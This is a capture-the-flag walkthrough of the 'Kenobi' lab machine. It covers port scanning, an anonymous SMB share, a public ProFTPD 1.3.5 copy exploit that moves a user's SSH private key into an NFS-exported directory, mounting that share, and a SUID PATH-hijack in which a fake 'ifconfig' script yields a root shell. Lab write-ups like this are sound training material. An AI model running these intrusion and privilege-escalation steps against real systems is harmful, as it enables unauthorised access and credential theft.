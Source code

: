 # Kenobi

***
![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/ab53e317-4530-4bf2-8910-6defd55ec680)

## **Difficulty = Easy**

***

Running our nmap scan we have


```
# Nmap 7.94SVN scan initiated Fri Feb  9 14:14:11 2024 as: nmap -p- -sCV -v --min-rate=1000 -T4 -oN nmap.txt 10.10.3.223
Increasing send delay for 10.10.3.223 from 0 to 5 due to 63 out of 156 dropped probes since last increase.
Increasing send delay for 10.10.3.223 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.3.223
Host is up (0.23s latency).
Not shown: 65442 filtered tcp ports (no-response), 87 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      34373/udp6  mountd
|   100005  1,2,3      39727/tcp6  mountd
|   100005  1,2,3      49087/tcp   mountd
|   100005  1,2,3      60433/udp   mountd
|   100021  1,3,4      44331/tcp   nlockmgr
|   100021  1,3,4      45453/tcp6  nlockmgr
|   100021  1,3,4      54431/udp6  nlockmgr
|   100021  1,3,4      59904/udp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h59m59s, deviation: 3h27m51s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2024-02-09T07:16:42-06:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-02-09T13:16:42
|_  start_date: N/A
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  9 14:16:54 2024 -- 1 IP address (1 host up) scanned in 163.26 seconds
```



Checking port 80/HTTP we have this



![](https://i.imgur.com/MCIU09Z.png)




Checking port 139/445 SMB we have an anonymous share



![](https://i.imgur.com/enDBCOo.png)


We can go ahead and connect to it, in which we have a `log.txt` file, go ahead and download to our local machine


```bash
smbclient \\\\10.10.156.73\\anonymous

mget log.txt
```



![](https://i.imgur.com/aJBT4hi.png)



Checking the log file looks like some kind of FTP log, let enumerate ftp 



![](https://i.imgur.com/EH2C8Xa.png)



We can't connect via the anonymous user as the default password "`anonymous`", probably it has been changed



![](https://i.imgur.com/mYA5Al2.png)


Well, but lucky for us we have the version for the FTP server, **"ProFTPD 1.3.5 Server"**, Enumerating this version leads me to this [exploit](https://www.exploit-db.com/exploits/49908)



![](https://i.imgur.com/YCgoLzk.png)



Although we have to make some little changes to this exploit, by changing the `cpfr` which is copy from command path to `/home/kenobi/.ssh/id_rsa` and command `cpto` which is copy to `/var/tmp/id_rsa`



![](https://i.imgur.com/36pR6IT.png)


> I am sorry if i am a bit too forward but i have enumerated the NFS share already, i found out that there is a writable share on `/var/tmp` that is why i decided to specify it in our exploit, the `/home/kenobi/.ssh/id_rsa` is from the `log.txt` file, Remember :D 



Go ahead and run the exploit


```bash
python3 exploit.py 10.10.3.223
```



![](https://i.imgur.com/SzsC4BS.png)


Now mount the NFS share on port 111



```bash
showmount -e 10.10.156.73

sudo mount -t nfs 10.10.156.73:/var ./mnt
```



![](https://i.imgur.com/t4RhpJb.png)


Go ahead and switch to the mounted NFS, then copy the `id_rsa` to wherever you want, Just copy it!!!


![](https://i.imgur.com/DvsU32N.png)



Go ahead and login as user kenobi with the `id_rsa` file



![](https://i.imgur.com/lg6DB5s.png)


Running `find / -perm -4000 2>/dev/null` we have we have an unusual SUID binary `/usr/bin/menu`




![](https://i.imgur.com/VDNwrnm.png)



running this binary and choosing option 3 we can see that, the `ifconfig` binary is been ran, we can create our own `ifconfig` binary and use it to gain shell




![](https://i.imgur.com/70EwVlT.png)


We can go ahead and change directory to `/tmp`, create a file named `ifconfig`, grant it 777 permissions, export the `/tmp` path to PATH environment variable and run the `/usr/bin/menu` program selecting option 3 again and you should be root



```bash
# Create the file

cd /tmp
touch ifconfig
vim ifconfig

# COPY AND PASTE this

#!/bin/bash
/bin/bash -i

# HIT [ESC] key and then type in :wq to exit vim saving changes

# Export PATH

chmod 777 ifconfig
export PATH=/tmp:$PATH

# Run the program

/usr/bin/menu
3
```


![](https://i.imgur.com/oI6I0cB.png)


Just a milestone to the Offensive Security Path, Have a nice weekend 😄
